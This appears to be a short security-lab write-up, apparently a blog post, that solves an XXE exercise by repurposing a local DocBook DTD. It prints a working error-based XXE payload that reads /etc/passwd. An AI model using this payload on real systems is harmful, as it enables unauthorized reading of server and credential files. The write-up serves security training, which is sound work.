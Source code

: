 ```bash
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

&#x25 decode % 

&#x26 decode &

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/XXE/Exploiting-XXE-to-retrieve-data-by-repurposing-a-local-DTD.png)

Labe Solved

-------------------

𝕊𝔼𝔼 𝕐𝕆𝕌 𝕀ℕ ℕ𝔼𝕏𝕋 𝔹𝕃𝕆𝔾

-------------------
![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/XXE/End.gif)
